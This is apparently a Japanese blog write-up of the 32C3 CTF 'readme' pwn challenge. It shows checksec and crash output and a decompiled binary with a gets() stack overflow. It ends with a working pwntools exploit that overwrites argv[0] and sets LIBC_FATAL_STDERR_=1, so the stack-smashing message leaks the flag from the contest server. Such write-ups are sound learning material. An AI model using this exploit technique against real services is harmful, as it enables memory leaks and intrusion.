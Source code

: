 ```yaml
---
layout: post
alias: "/blog/2016/01/02/32c3-ctf-readme/"
title: "32C3 CTF readme"
date: 2016-01-02T23:20:13+09:00
tags: [ "ctf", "writeup", "pwn", "xinetd", "buffer-overflow", "stack-smashing-protection" ]
---
```


手decompileした結果を眺めてみて、flagを取り出す方法が分からなかったので、他人のwriteupを見て解いた。初心者が初見で解くのはつらい問題だと感じる。

## [pwn 200: readme](https://github.com/ctfs/write-ups-2015/tree/master/32c3-ctf-2015/pwn/readme-200)

>   Can you [read]() the flag?  
>   >   nc 136.243.194.62 1024

入力が2回あるバイナリ。1回目の入力にstack上のbuffer overflowがある。ただしsspがある。

``` sh
$ ./readme.bin
Hello!
What's your name? XXX
Nice to meet you, XXX.
Please overwrite the flag: YYY
Thank you, bye!

$ checksec --file readme.bin
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   readme.bin

$ perl -e 'print "X"x300,$/, "X",$/' | ./readme.bin
Hello!
What's your name? Nice to meet you, XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX.
Please overwrite the flag: Thank you, bye!
*** stack smashing detected ***: ./readme.bin terminated
======= Backtrace: =========
/usr/lib/libc.so.6(+0x72055)[0x7fdb53982055]
/usr/lib/libc.so.6(__fortify_fail+0x37)[0x7fdb53a095d7]
/usr/lib/libc.so.6(__fortify_fail+0x0)[0x7fdb53a095a0]
./readme.bin[0x4008ae]
======= Memory map: ========
00400000-00401000 r-xp 00000000 08:02 5252127                            /home/user/readme.bin
...
```

decompileすると以下のようになっている。

``` c
#include <stdio.h>
#include <stdlib.h>
int canary = 0; // randomized?
char flag[] = "32C3_TheServerHasTheFlagHere\x2e\x2e\x2e";
void func(void) {
    char buf[0x118];
    buf[0x108] = canary;
    __printf_chk(1, "Hello!\nWhat's your name? ");
    if (gets(buf) == NULL) {
        exit(1);
    }
    __printf_chk(1, "Nice to meet you, %s.\nPlease overwrite the flag: ", buf);
    for (register int i = 0; i < 20; ++i) {
        register int c = getc(stdin);
        switch (c) {
            case EOF:
                exit(1);
            case '\n':
                memset(flag + i, 0, 0x20 - i);
                break;
            default:
                flag[i] = c;
        }
    }
    puts("Thank you, bye!");
    /* canary check */
    if (buf[0x108] != canary) {
        __stack_chk_fail();
    }
}
int main(void) {
    setbuf(stdout, NULL);
    func();
    return 0;
}
```

他のwriteup曰く、

-   sspによる`*** stack smashing detected ***: ./readme.bin terminated`によって`argv[0]`の値を表示できるので、これを書き換える。
-   上の出力は端末に直接吐かれるが、環境変数`LIBC_FATAL_STDERR_=1`と指定しておくと標準エラー出力に流れてきて、network越しでも見えるようになる。
-   flagは`.data` sectionである`0x600d20`にあり、後に上書きされるが、`0x400d20`にも書き込まれている。

ということなので、その通りにやればflagが出てくる。

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools

import argparse
parser = argparse.ArgumentParser()
parser.add_argument('--local', action='store_true')
args = parser.parse_args()

context.log_level = 'debug'
if args.local:
    p = process('./readme.bin')
else:
    p = remote('136.243.194.62', 1024)

p.sendline(
    'X' * 0x210 # ($rsp at 0x4006ee, entry point) - ($rsp at 0x40080e, before gets)
    + p64(1) # argc
    + p64(0x400d20) # argv[0] <- flag
    + p64(0x0) # argv sentinel
    + p64(0x600d20) # envp[0] <- overwritten flag
    )
p.sendline('LIBC_FATAL_STDERR_=1')
p.recvall()
```

[Gallopsled/pwntools](https://github.com/Gallopsled/pwntools)というのを教えてもらったので使ってみた。

### 参考

-   <https://nuc13us.wordpress.com/2015/12/31/32c3-ctf-pwn-200-readme/>
-   <http://nandynarwhals.org/2015/12/31/32c3ctf-readme-pwn200/>
-   <http://stackoverflow.com/questions/4290336/how-to-redirect-runtime-errors-to-stderr>
-   <http://softwaretechnique.jp/OS_Development/Supplement/Binary/elf_stack.html>
